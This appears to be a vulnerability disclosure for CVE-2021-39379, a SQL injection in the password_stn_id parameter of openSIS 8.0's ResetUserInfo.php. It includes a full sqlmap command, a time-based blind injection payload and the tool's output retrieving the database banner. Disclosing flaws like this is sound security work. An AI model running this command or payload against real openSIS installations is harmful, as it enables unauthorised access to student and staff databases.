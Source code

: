 # OPENSIS 8.0 SQL INJECTION VULNERABILITY CVE-2021-39379

A SQL Injection vulnerability exists in version 8.0 of openSIS when MySQL (MariaDB) is being used as the application database. A malicious attacker can issue SQL commands to the MySQL (MariaDB) database through the vulnerable password_stn_id parameter. 

Vulnerable PHP Page:

ResetUserInfo.php

Vulnerable Payload

sqlmap -u "http://localhost:8081/ResetUserInfo.php" --data="pass_user_type=pass_student&pass_type_form=password&password_stn_id=1234&uname=1234&month_password_dob=08&day_password_dob=01&year_password_dob=2021&pass_email=&password_stf_email=" --referer="http://localhost:8081/ForgotPass.php?language=en" --dbms="MySQL" --level=3 --risk=3 --banner --answers="crack=N,dict=N,continue=Y,quit=N"

SQL Injection:

http://localhost:8081/ResetUserInfo.php             
```
Parameter: password_stn_id (POST)
    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (heavy query)
    Payload: pass_user_type=pass_student&pass_type_form=password&password_stn_id=1234 AND 1211=BENCHMARK(5000000,MD5(0x6a65474d))&uname=1234&month_password_dob=08&day_password_dob=01&year_password_dob=2021&pass_email=&password_stf_email=
    
[21:11:37] [INFO] testing MySQL
[21:11:44] [INFO] confirming MySQL
[21:11:44] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[21:11:56] [INFO] the back-end DBMS is MySQL
[21:11:56] [INFO] fetching banner
[21:11:56] [INFO] retrieved: 10.5.11-MariaDB-1
web application technology: PHP 7.4.21
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
banner: '10.5.11-MariaDB-1'
```

Discovered by Nathan Johnson, August 2021
